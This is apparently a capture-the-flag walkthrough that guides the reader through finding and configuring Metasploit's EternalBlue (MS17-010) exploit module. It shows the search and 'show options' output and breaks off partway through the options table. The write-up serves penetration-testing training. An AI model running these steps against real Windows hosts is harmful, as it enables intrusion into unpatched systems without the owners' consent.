 **Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)**  
To find an exploit on msfconsole, we use ```search```, so here, we use ```search EternalBlue```. It gives us a list of exploits, we will use the first one of the list.   
```
msf6 > search EternalBlue

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 >
```

We can now answer the question : exploit/windows/smb/ms17_010_eternalblue  
To use this exploit, we just need to type ```use 0```, to use the exploit shown at index 0 on the list. When we select an exploit that needs a payload, msfconsole will automatically select a default payload.  

**Show options and set the one required value. What is the name of this value ? (All caps for submission)**  
To show options of the current exploit, we just need to type ```show options```, it's easy to use right ?
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/w
                                             iki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Wi
                                             ndows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target mach
                                             ines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Window
                                             s Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines
                                             .
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2
```